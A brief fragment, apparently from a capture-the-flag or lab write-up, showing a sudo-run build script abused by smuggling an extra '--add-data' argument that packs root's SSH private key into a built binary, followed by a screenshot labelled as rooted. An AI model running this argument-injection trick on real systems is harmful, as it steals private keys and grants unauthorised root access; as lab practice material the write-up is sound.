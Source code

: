 ```bash
sudo /usr/local/sbin/build-installer.sh make "--add-data /root/.ssh/id_rsa:. script.py"

/opt/shared/dist/qreader
```

![](screenshots/rooted.png)